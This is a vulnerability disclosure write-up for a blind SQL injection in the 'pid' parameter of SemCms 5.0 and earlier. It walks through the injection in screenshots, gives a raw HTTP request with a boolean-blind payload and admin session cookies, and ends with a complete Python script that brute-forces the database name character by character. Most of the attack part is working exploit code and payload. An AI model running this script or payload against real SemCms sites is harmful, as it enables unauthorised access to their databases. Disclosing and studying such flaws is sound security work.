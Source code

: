 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Quanxian.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the pid parameter in the SEMCMS_Quanxian.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.The location of the vulnerability source code: /admin/SEMCMS_Quanxian.php. Try to access this address directly

![image](https://github.com/user-attachments/assets/a1246dd7-2a6a-4482-8ff5-5197ceabdb57)

Locate the source code position:

![image](https://github.com/user-attachments/assets/f8aa8489-81c8-43d0-a498-e3706d468c6e)

Try to construct URL links，URL:http://localhost:83/admin/SEMCMS_Quanxian.php?type=edit&pid=1

![image](https://github.com/user-attachments/assets/f30ae39c-cc2f-47dc-9e8d-0c0188960c2d)

There is an SQL injection vulnerability in the parameter value pid!

![image](https://github.com/user-attachments/assets/be620b6c-d0c6-4761-bc2b-5e788b6eb938)

Look for the value of pid until the page echo shows a difference! Here it is found that when pid=10, the page is empty! Determine the length of the database by using blind annotation:

![image](https://github.com/user-attachments/assets/0d9a409f-7647-4c3e-b9c8-76601e29f5e4)
![image](https://github.com/user-attachments/assets/3de23722-4624-4241-9afd-e02483f361d0)

The length of the database can be determined based on the different echoes of the pages! The next step is to obtain the specific value of the database name:

![image](https://github.com/user-attachments/assets/72029c7f-72a0-43c9-bee9-cf7cd207f68b)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_Quanxian.php?type=edit&pid=if(substr(database(),{{int(1-8)}},1)+like+"{{payload(word)}}",1,10) HTTP/1.1
Host: localhost:83
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Dest: document
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Sec-Fetch-Site: none
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
Sec-Fetch-User: ?1
```

# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if '产品分类' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if '产品分类' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Quanxian.php?type=edit&pid="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    
```
